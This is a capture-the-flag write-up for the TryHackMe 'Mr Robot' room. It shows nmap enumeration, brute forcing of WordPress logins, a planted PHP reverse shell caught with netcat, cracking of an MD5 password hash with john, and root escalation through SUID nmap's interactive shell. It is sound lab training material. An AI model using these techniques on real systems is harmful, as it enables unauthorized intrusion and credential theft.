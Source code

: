 ```yaml
---
title: MrRobot-writeup-THM
date: 2024-01-22 16:00:00
categories: [room, medium]
tags: [linux, privesc]    # TAG names should always be lowercase
image: https://images.unsplash.com/photo-1582266255765-fa5cf1a1d501?q=80&w=2670&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
---
```

## My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/mrrobot">Mr Robot CTF</a>"
First of all I am going to do an nmap scan:

```bash
nmap -sC -sV -p- 10.10.81.92

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-22 05:44 EST
Nmap scan report for 10.10.81.92
Host is up (0.055s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.10 seconds
```

Here we can see port 80 and 443 open.

So I am going to expplore the web page.

![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled.png)

This is the content of the web page.

From this point I just went and enumerate the webpage.

I also found the robots.txt which leads to the first flag.

inside the robots.txt there is also the location to a dictionary:

```bash
sort Downloads/fsocity.dic | uniq > uniq.txt
```

I ran this command because there were repeated words.

So, now I just need the username.

I tried with wpscan but I got nothing, So I tried to FUZZ the username with the sictionary, which if it is in the wordlist, should get a different response size, because wordpress tells you if is just the password that is wrong.

 And that’s exactly what happened:

![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%201.png)

So, now I think of running the fuzzer again, with the username Elliot and with the dictionary as a password.

And we got the password:

 

![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%202.png)

And I got in, from there I could create a reverse shell, but first let’s explore the dashboard.

In the Users section wee see that there is another User:

![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%203.png)

Maybe it can be helpful later.

We can create a reverse shell just by copy and paste the pentestermonkey reverse shell, in the 404 template.

![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%204.png)

Then start the listener in the machine and we are in:

```bash
nc -lvnp 4444  
listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.81.92] 50199
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 12:10:26 up  1:29,  0 users,  load average: 0.00, 0.88, 2.66
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
```

We have 2 users:

```bash
cat /etc/passwd | grep "home"

syslog:x:101:104::/home/syslog:/bin/false
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
```

We can’t cd into varnish, but we can cd in robot.

in his home we have 2 files:

```bash
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

As we can see the first one can be opened only by robot, but the second one can be read by anyone:

```bash
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

And looks like we got the md5 hash of robot

And we can simply brute force it:

```bash
john --format=Raw-md5 pass.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (robot)     
1g 0:00:00:00 DONE (2024-01-22 07:19) 100.0g/s 4051Kp/s 4051Kc/s 4051KC/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Using that we can use the command “su” to authenticate ourself as robot:

```bash
su robot
Password: abcdefghijklmnopqrstuvwxyz
```

```bash
whoami
robot
```

After doing some enumeration, I noticed that we got a strange SUID:

 

```bash
find / -type f -perm -04000 -ls 2>/dev/null

 15068   44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /bin/ping
 15093   68 -rwsr-xr-x   1 root     root        69120 Feb 12  2015 /bin/umount
 15060   96 -rwsr-xr-x   1 root     root        94792 Feb 12  2015 /bin/mount
 15069   44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /bin/ping6
 15085   40 -rwsr-xr-x   1 root     root        36936 Feb 17  2014 /bin/su
 36231   48 -rwsr-xr-x   1 root     root        47032 Feb 17  2014 /usr/bin/passwd
 36216   32 -rwsr-xr-x   1 root     root        32464 Feb 17  2014 /usr/bin/newgrp
 36041   44 -rwsr-xr-x   1 root     root        41336 Feb 17  2014 /usr/bin/chsh
 36038   48 -rwsr-xr-x   1 root     root        46424 Feb 17  2014 /usr/bin/chfn
 36148   68 -rwsr-xr-x   1 root     root        68152 Feb 17  2014 /usr/bin/gpasswd
 36349  152 -rwsr-xr-x   1 root     root       155008 Mar 12  2015 /usr/bin/sudo
 34835  496 -rwsr-xr-x   1 root     root       504736 Nov 13  2015 /usr/local/bin/nmap
 38768  432 -rwsr-xr-x   1 root     root       440416 May 12  2014 /usr/lib/openssh/ssh-keysign
 38526   12 -rwsr-xr-x   1 root     root        10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
395259   12 -r-sr-xr-x   1 root     root         9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
395286   16 -r-sr-xr-x   1 root     root        14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
 38505   12 -rwsr-xr-x   1 root     root        10344 Feb 25  2015 /usr/lib/pt_chown
```

Nmap can be used in interactive mode:

```bash
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
```

And after that we just want to go in the /root directory and retrieve the flag.
